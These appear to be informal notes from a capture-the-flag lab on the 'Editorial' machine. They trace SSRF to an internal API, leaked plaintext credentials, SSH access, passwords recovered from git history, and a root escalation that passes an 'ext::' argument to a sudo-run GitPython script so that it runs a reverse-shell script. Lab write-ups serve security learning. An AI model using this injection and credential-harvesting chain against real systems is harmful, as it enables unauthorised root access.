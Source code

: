 ___


submissions@tiempoarriba.htb

fuzz subdomains


using the HUGO framework


-> did not find subs or any interesting dirs def missing something

why is this 200 ok

http://editorial.htb/?:

*endpoints*
/upload_cover
/upload

Hugo 0.104.2



*SSRF is present here, and theres also something here*
http://localhost:5000


*these 2 mails here*
      "contact_email_1": "soporte@tiempoarriba.oc",
      "contact_email_2": "info@tiempoarriba.oc",



*this endpoint found creds*
"endpoint": "/api/latest/metadata/messages/authors

{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}



Username: dev
Password: dev080217_devAPI!@

*logs in ssh*


*gotta get in this user / .git prob has creds???*
prod:x:1000:1000:Alirio Acosta:/home/prod:/bin/bash



syslog 
theres a socked and some services running as dev stuff like that ? maybe thats the way?
uid=107(syslog) gid=113(syslog) groups=113(syslog),4(adm)


    location / {
        include proxy_params;
        proxy_pass http://unix:/opt/apps/app_editorial/editorial.sock;
    }
}



*in commit messages found the pass for prod*

Username: prod
Password: 080217_Producti0n_2023!@



*this right here*
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *



*i think like this*
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858



*created a rev shell script and ran it like this*
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py ext::/home/prod/cool.sh



